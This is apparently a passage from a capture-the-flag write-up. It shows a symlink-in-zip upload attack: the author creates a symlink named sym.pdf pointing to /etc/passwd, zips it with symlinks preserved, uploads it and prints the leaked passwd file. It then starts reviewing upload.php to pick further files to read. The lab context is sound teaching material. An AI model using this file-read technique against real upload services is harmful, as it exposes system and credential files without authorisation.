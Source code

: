```sh
ln -s /etc/passwd sym.pdf

zip --symlinks test.zip sym.pdf
```

Now that we have our zip file, we have to upload it and retrieve the result.  
As the result is not visible since it's not a PDF, we can just download it and open with a text editor.

```
cat sym.pdf

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

Perfect! Our exploit works correctly. Let's try to find interesting files to read now. Starting with `upload.php` and `shop/product.php`.

```php
# upload.php
[snip]

if(isset($_POST['submit'])) {
  // Get the uploaded zip file
  $zipFile = $_FILES['zipFile']['tmp_name'];
  if ($_FILES["zipFile"]["size"] > 300000) {
    echo "<p>File size must be less than 300,000 bytes.</p>";
  } else {
    // Create an md5 hash of the zip file
    $fileHash = md5_file($zipFile);
    // Create a new directory for the extracted files
    $uploadDir = "uploads/$fileHash/";
$tmpDir = sys_get_temp_dir();
    // Extract the files from the zip
    $zip = new ZipArchive;
    if ($zip->open($zipFile) === true) {
      if ($zip->count() > 1) {
      echo '<p>Please include a single PDF file in the archive.<p>';
      } else {
```